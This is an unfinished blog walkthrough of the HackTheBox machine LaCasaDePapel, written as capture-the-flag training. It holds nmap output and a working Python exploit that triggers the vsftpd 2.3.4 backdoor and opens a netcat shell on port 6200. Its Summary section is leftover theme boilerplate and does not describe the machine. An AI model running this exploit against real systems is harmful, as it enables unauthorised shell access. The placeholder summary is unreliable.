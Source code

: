 ```yaml
---
layout: post
title: "HTB - LaCasaDePapel"
author: "mrs3c"
categories: Blog
tags: [hackthebox, htb, pen-testing, certificates, cronjob, nodejs, openssl, otp, php, psysh, ssh rsa auth, ssh, vsftpd]
image: lacasa_logo.png
---
```


To fill in later

# HTB retired machines - LaCasaDePapel

## Summary

[Getting Started]({{ site.github.url }}{% post_url 2016-10-10-getting-started %}): getting started with installing Millennial, whether you are completely new to using Jekyll, or simply just migrating to a new Jekyll theme.

## 1. discovery - network service scanning - nmap

```bash
# Nmap 7.80 scan initiated Sun Dec  8 21:59:21 2019 as: nmap -sC -sV -Pn -oA nmap/lacasadepapel 10.10.10.131
Nmap scan report for 10.10.10.131
Host is up (0.42s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.3.4
22/tcp  open  ssh      OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 03:e1:c2:c9:79:1c:a6:6b:51:34:8d:7a:c3:c7:c8:50 (RSA)
|   256 41:e4:95:a3:39:0b:25:f9:da:de:be:6a:dc:59:48:6d (ECDSA)
|_  256 30:0b:c6:66:2b:8f:5e:4f:26:28:75:0e:f5:b1:71:e4 (ED25519)
80/tcp  open  http     Node.js (Express middleware)
|_http-title: La Casa De Papel
443/tcp open  ssl/http Node.js Express framework
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: La Casa De Papel
| ssl-cert: Subject: commonName=lacasadepapel.htb/organizationName=La Casa De Papel
| Not valid before: 2019-01-27T08:35:30
|_Not valid after:  2029-01-24T08:35:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
| tls-nextprotoneg:
|   http/1.1
|_  http/1.0
Service Info: OS: Unix
```

## 2. discovery - files and directories - http

 2.1 Navigating to port 80 we find a page which needs an OTP supplied by a QRCode. The page asks us to install Google Authenticator

![htb-lacasadepapel-2-http](https://mrjak3.github.io/assets/img/htb-lacasadepapel-2-http.png)

 2.2 Scanning the code using Google Authenticator on an Android phone gives us a code but it refuses to work either way. So, maybe its for internal users only. Lets keep this aside and come back later.

## 3. discovery - files and directories - https

 3.1 Browsing to HTTPS shows us an error that we need a client certificate to continue which we don't possess at the moment

![htb-lascasadepapel-3.0-https](https://mrjak3.github.io/assets/img/htb-lascasadepapel-3.0-https.png)

## 4. initial access - exploit public facing application - vsftp

 4.1 As seen from nmap, vsftp is version 2.3.4. A quick search allows the attacker to discover that the version was backdoored. Lets try to replicate the exploit code.

 4.2 The code just tries a failed login, which triggers the backdoor on port 6200 and then executes commands from it. Lets do that using a small python script:

```bash
import socket
import os
import time

def exploit(ip, port):
    sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    sock.connect((ip, port))

    sock.send('USER :)\n')
    sock.send('PASS HTBPASS\n')
    time.sleep(2)
    sock.close()

    os.system("rlwrap nc 10.10.10.131 6200 -v")

exploit("10.10.10.131", 21)
```

 4.3 The code is pretty simple, it just creates a connection to the FTP port, sends in commands and then quiclky connects to the backdoored port at 6200.
 4.4 Running the script:
 
 ![htb-lascasadepapel-4.4-vsftp](https://mrjak3.github.io/assets/img/htb-lascasadepapel-4.4-vsftp.png)
